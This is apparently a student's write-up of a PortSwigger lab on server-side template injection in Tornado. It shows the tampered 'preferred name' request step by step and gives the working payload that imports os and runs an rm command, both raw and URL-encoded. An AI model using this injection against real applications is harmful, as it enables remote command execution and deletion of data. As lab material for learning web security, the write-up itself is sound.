# Basic server-side template injection (code context)

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT: {% import os %} {{os.system('rm /home/carlos/morale.txt')

### in Django templates `{{ }}` are used to evaluate [variables](https://docs.djangoproject.com/en/1.9/ref/templates/language/#variables) and  ### `{% %}` are Django templates [tags](https://docs.djangoproject.com/en/1.9/ref/templates/language/#tags) for commands such as `block`, `if`, `for`, `with`, `comment`, etc.

### in torando template {% apply linkify %}{{name}} said: {{message}}{% end %}

```python
import os
cmd = 'rm /home/kali/Downloads/burp/new_test.txt'
os.system(cmd)
```

above code will delete new_text.txt file from system

---

### step 1

login using into account
observe preferred name functionality

### step2

comment anything into any post you will see name and comment

![screenshot](images/lab2_prefered_name.jpg)

code of the above image is

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

### step2

if preferred name change name from first name it will be

![screenshot](images/lab2_prefered_name_first_name.jpg)

### step3

if preferred name change name from nick name it will be

![screenshot](images/lab2_prefered_name_nickname.jpg)

### step4

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify this line
`blog-post-author-display=user.name}}{{7\*\*&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

![screenshot](images/lab2_modify_code_into_repeter.jpg)

### step4

`blog-post-author-display=user.name}}{{7**&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify `
{% import os %} {{os.system('rm /home/carlos/morale.txt')
`blog-post-author-display=user.name}}{% import os %}{{os.system('rm /home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

url encoded ctrl u
`blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

and reload blog post

![screenshot](images/lab2_blog_page_with_error_and_solve_lab.jpg)

